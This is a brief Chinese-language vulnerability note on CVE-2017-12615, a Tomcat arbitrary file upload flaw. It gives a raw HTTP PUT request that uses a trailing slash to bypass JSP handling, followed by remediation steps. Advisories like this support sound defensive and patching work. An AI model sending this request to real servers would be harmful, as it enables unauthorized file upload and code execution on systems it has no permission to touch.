

### 0x00 简述

漏洞名称：Tomcat任意文件上传漏洞

漏洞编号：CVE-2017-12615

漏洞影响：上传包含任意代码的文件，并被服务器执行。

影响平台：ALL

影响版本：Apache Tomcat 7.0.0 - 7.0.81

### 0x01 利用

在 Windows 服务器下， 默认 readonly 为 true，当 readonly 设置为 false 时，可以通过 PUT / DELETE 进行文件操控，并可以执行任意代码。直接使用 PUT上传文件时却发现会报404：


这是因为在默认配置中，当后缀名为 .jsp 和 .jspx 的时候，是通过 JspServlet 处理请求的，要上传文件就得绕过，所以需要在文件末尾加上 `/` 进行绕过(windows下可以使用`%20`)

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```

### 0x02 修复

- 禁用`PUT`
- `readonly` 设为 `true`
- 升级

### 0x03 参考链接

 https://paper.seebug.org/398 